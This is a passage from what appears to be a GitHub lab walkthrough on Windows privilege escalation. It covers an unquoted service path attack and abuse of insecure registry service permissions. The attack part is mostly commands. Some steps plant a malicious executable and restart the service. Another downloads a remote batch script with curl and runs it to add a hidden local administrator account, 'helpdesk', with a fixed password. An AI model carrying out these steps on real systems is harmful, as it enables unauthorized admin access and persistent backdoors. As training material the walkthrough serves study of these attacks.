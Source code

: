    - Save the newly created `Common.exe` into:

     ```plaintext
     C:\Program Files\Unquoted Path Service\Common Files\
     ```

6. **Restart the Service:**

   - Restart the vulnerable service to trigger the execution of your malicious file:

     ```bash
     sc stop unquotedsvc
     sc start unquotedsvc
     ```

---

### Insecure Registry Service

![Insecure Registry Service Properties](.assets/insecure_registry_service.png)

We can change the service's executable path in the registry.

> **Tip:** Try running the `ModifyServiceImagePath.bat` util!

#### (Optional) Running ModifyServiceImagePath util

1. **Download the Batch File:**

   Use this command to download a batch file to your computer:

   ```bash
   curl -L -o "%USERPROFILE%\ModifyServiceImagePath.bat" https://raw.githubusercontent.com/Ardemium/InsideJob/refs/heads/main/utils/ModifyServiceImagePath.bat
   ```

2. **Run the Batch File:**

   Run the downloaded batch file to create a new user (`helpdesk`), set the password to `L3tm3!n`, and give the user admin rights:

   ```bash
   %USERPROFILE%\ModifyServiceImagePath.bat "cmd.exe /c net user helpdesk L3tm3!n /add ^&^& net localgroup administrators helpdesk /add"
   ```
